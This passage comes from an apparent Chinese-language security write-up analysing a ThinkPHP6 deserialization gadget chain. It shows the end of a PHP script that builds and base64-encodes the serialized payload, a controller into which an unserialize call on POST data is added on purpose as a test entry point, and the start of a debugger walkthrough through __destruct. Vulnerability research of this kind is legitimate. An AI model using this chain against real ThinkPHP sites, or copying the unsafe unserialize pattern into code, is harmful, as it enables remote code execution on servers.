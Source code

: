 ```plain
                'debug'=>true,
                'force_client_ids' => 1,
                'allow_client_ids' => '',
                'format_head' => [new \think\view\driver\Php,'display'],
            ];
            $this->app = new \think\App();

        }
    }
}

namespace{
    $c = new think\log\driver\Socket();
    $b = new think\log\Channel($c);
    $a = new League\Flysystem\Cached\Storage\Psr6Cache($b);
    echo urlencode(base64_encode(serialize($a)));
}
```

### 分析

在 Index.php 添加反序列化点：

```plain
<?php
namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index(){
        if($_POST["a"]){
            unserialize(base64_decode($_POST["a"]));
        }
        return "hello";
    }

    public function hello($name = 'ThinkPHP6')
    {
        return 'hello,' . $name;
    }
}
```

在 unserialize 打断点，进入调试首先是 Psr6Cache.php 的父类的 AbstractCache.php 的\_\_destruct() 方法：

```plain
public function __destruct()
    {
        if (! $this->autosave) {
            $this->save();
        }
    }
```
